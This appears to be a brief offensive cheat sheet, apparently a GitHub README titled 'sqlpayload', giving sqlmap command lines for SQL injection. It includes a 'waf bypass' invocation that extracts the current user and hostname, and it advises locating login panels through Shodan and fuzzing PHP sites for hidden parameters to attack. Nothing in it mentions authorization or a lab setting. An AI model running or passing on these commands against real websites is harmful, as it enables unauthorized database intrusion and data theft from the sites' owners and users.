 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc


# waf bypass sqlmap

* sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --current-user --hostname


